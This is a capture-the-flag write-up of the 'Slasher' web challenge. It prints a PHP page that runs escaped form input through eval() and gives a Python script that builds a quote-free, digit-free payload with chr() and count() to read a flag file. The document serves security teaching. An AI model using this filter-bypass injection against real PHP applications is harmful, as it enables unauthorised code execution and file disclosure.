


# Slasher

| 📁 Category  |  👨‍💻 Creator | 📝 Writeup By |
|--------------|---------------|----------------|
| Web          | gehaxelt      | darius-it      |

**Description:**
> Slashing all the slashes...
>
> http://52.59.124.14:5011 


## Solution
For this web challenge, we are given a simple web page with a form that takes commands and executes them on the server.



Most notably, we also have a button to show the source code of the page. Clicking this button, we see the following code:

```php
<?php
ini_set("error_reporting", 0);
ini_set("short_open_tag", "Off");

set_error_handler(function($_errno, $errstr) {
    echo "Something went wrong!";
});

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}

include "flag.php";

$output = null;
if(isset($_POST['input']) && is_scalar($_POST['input'])) {
    $input = $_POST['input'];
    $input = htmlentities($input,  ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
    $input = addslashes($input);
    $input = addcslashes($input, '+?<>&v=${}%*:.[]_-0123456789xb `;');
    try {
        $output = eval("$input;");
    } catch (Exception $e) {
        // nope, nothing
    }
}
?>
```

We can see that we take the input and apply htmlentities, addslashes and addcslashes to it before passing it to `eval()`. This means that we cannot use quotes, backslashes or any of the other special characters listed in the `addcslashes` call.

Our goal is to input some kind of command like `cat flag.php` to read the flag file, but we cannot use quotes to specify the filename.

First, I tried to think what commands work without any of the speial characters which are escaped. I tried a few commands, and most notably, `phpinfo()` worked, which confirmed that we can run arbitrary PHP code.

Then, I did some research and finally used ChatGPT to construct ASCII characters using `chr()` calls, which allows us to construct any string without using quotes. Moreover, we have to avoid using numbers, so we can use `count(array(true, true, true))` to get the number 3, for example.

Putting it all togther, we can make a script to construct our payload:

```python
asciis = [102,108,97,103,46,112,104,112]
payload = 'readfile(implode((string)null,array('
for a in asciis:
    arr = ','.join(['true'] * a)
    payload += f'chr(count(array({arr}))),'
payload = payload[:-1] + ')))'
print(payload)
```

The ASCII array contains the ASCII values of the string `flag.php`.

We can now take the very long output of this script and paste it into the input field of the web page. After submitting, we get the flag as output:



And that's our flag! We have successfully solved the challenge 🎉

I'm sure there is an easier way to do this, but this was a fun and somewhat simple way to get the job done.
